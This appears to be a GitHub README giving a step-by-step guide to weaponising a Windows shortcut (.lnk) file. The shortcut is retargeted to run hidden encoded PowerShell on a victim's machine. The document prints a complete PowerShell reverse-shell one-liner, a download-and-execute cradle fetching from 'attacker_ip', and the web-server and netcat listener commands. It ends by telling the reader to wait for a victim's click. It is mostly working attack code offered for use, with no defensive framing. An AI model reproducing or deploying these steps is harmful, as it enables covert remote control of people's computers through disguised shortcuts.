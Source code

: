 # This is Most underrated attack, if there are so many shortcut links are created . You can Manupulate the .lnk by putting the Raw encoded Code.
Follow this Step to Make a Malicious Link by Putting the Raw code..

# Step By Step 
```language
1. Edit the .lnk link
2. Create file and start a python server
3. start a listner
4. save a the lnk file
```
# 1. step
```language
$WScriptShell = New-Object -ComObject WScript.Shell
$Shortcut = $WScriptShell.CreateShortcut("C:\Common Applications\Notepad.lnk")
$Shortcut.TargetPath = "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe"
$Shortcut.Arguments = "-Nop -sta -noni -w hidden -encodedCommand <encoded_code_here>"
```
# 2. Create a touch.ps1 file  and start a listener
Create a touch.ps1 file and Edit your ip in this .....
```language
$c=New-Object System.Net.Sockets.TCPClient("127.0.0.1",9001);$s=$c.GetStream();[byte[]]$b=0..65535|%{0};while(($i=$s.Read($b,0,$b.Length))-ne 0){;$d=(New-Object System.Text.ASCIIEncoding).GetString($b,0,$i);$sb=(iex $d 2>&1|Out-String);$sb2=$sb+"PS "+"> ";$sby=([text.encoding]::ASCII).GetBytes($sb2);$s.Write($sby,0,$sby.Length);$s.Flush()};$c.Close()
```
Create a cradle and put the content in the file and start a server to serv all files.
```language
nano cradle
cradle content:- IEX(New-Object Net.WebClient).downloadString("http://attacker_ip:8000")
```
```language
python3 -m http.server 8000
```
# 3. start a listner
```language
rlwrap -cAr nc -lnvp 9001
```
# 4. Save the link and wait for the click on the link
```lanuage
$Shortcut.Save()
```
